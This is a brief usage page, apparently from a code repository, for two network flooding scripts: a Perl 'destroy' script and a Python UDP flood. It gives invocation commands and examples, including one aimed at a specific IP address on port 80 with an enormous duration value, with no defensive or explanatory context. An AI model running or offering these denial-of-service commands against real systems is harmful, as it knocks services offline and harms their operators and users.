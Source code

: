# Commands

$ Destroy 

perl destroy.pl 76.223.105.230 80 65500 50000000000

Usage: destroy <ip> <port> <time> .

Example: destroy 1.1.1.1 80 60

$ UDP

python2 udp.py {ip} {port} 0 0

Usage: udp <ip> <port> .

Example: udp 1.1.1.1 80 

